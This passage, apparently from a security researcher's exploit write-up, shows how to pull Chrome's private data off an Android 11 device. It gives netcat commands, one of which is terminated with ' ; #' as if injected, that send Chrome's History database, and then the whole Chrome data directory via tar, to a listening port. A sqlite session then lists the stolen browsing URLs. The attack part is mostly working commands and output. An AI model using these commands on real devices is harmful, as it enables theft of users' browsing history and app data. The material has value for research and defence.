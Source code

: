 ```bash
nc -w 3 127.0.0.1 31337 < /data/data/com.android.chrome/app_chrome/Default/History ; #
```
&nbsp;
On the listening side, the command would be:

```bash
adb shell nc -l -p 31337 > History
```
&nbsp;
Exploited... and if everything goes well, we’ll be able to open the `History` file that was saved on our computer:

```bash
$ adb shell nc -l -p 31337 > History
$ sqlite3 ./History
SQLite version 3.49.1 2025-02-18 13:38:58   
Enter ".help" for usage hints.
sqlite> .tables
downloads                meta                     urls                   
downloads_slices         segment_usage            visit_source           
downloads_url_chains     segments                 visits                 
keyword_search_terms     typed_url_sync_metadata
sqlite> select * from urls;
1|https://www.amazon.com/|Amazon.com|1|0|13389403328808160|0
2|https://m.youtube.com/|YouTube|2|0|13389403337227256|0
3|https://www.mercadolibre.com/|Mercado Libre - Envíos Gratis en el día|1|0|13389403339817557|0
4|https://mobile.twitter.com/|X|1|0|13389403346111866|0
5|https://twitter.com/|X|1|0|13389403346111866|0
6|https://x.com/|X|2|0|13389403346771913|0
```
&nbsp;
Very well! But... how do we extract the entire directory in a single command?

There are many references on the internet about how to transfer files with _netcat_, and several use the `tar` command to package an entire directory and send it.

The final _spell_ that transfers the full directory would be:

```bash
tar --create --file=- /data/data/com.android.chrome/ | nc -w 3 localhost 31337 ; #
```
&nbsp;
On the listening side, we just send the output to a file `.tar`:

```bash
adb shell nc -l -p 31337 > chrome.tar
```
&nbsp;
After executing the exploit, we can verify that `chrome.tar` contains all the files and subdirectories from `/data/data/com.android.chrome/`. Bullseye!

---

If we automate this entire process and fix some details (like the fact that we have to manually open an application after each exploitation), we’ll have a first working version of the exploit for Android 11.
